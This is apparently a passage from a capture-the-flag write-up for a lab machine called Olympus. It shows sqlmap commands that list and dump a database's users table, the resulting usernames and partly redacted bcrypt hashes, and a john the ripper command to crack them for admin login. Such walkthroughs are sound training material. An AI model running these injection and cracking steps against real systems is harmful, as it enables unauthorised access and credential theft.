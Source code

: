 Let's see what's in the olympus database. 

```
# sqlmap -r r.req --level 5 --risk 3 --batch -D olympus --tables    

Database: olympus
[6 tables]
+------------+
| categories |
| chats      |
| comments   |
| flag       |
| posts      |
| users      |
+------------+                
```

Now we extract column names from users table(we will also get flag from here using `-T flag --dump` or we can wait and get it once we have shell).
First we check users table.

```
# sqlmap -r r.req --level 5 --risk 3 --batch -D olympus -T users --dump
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| user_id | randsalt | user_name  | user_role | user_email             | user_image | user_lastname | user_password                                                | user_firstname |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| 3       | <blank>  | prometheus | User      | prometheus@olympus.thm | <blank>    | <blank>       | $2y$10$YC6uoMwK9Vp---redacted---cz1qK2EArDvnj3C 
| prometheus     |
| 6       | dgas     | root       | Admin     | root@chat.olympus.thm  | <blank>    | <blank>       | $2y$10$lcs4XW---redacted---N3rsuKWHCc.FGtapBAfW.mK | root           |
| 7       | dgas     | zeus       | User      | zeus@chat.olympus.thm  | <blank>    | <blank>       | $2y$10$cpJKDXh2wlAI---redacted---0QSUS53zp/r0HMtaj6rT4lC | zeus           |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+

```
For some reason it's formatted weirdly but now we posses usernames and password hashes. We can add another host
to our `/etc/hosts` file because we can see root a zeus users having email adresses @chat.olympus.thm .

We will use john the ripper for the cracking of hashes.

```
# john --wordlist=/root/Desktop/rockyou.txt --format=bcrypt hashes.txt
```

Now we can login to the admin panel. 
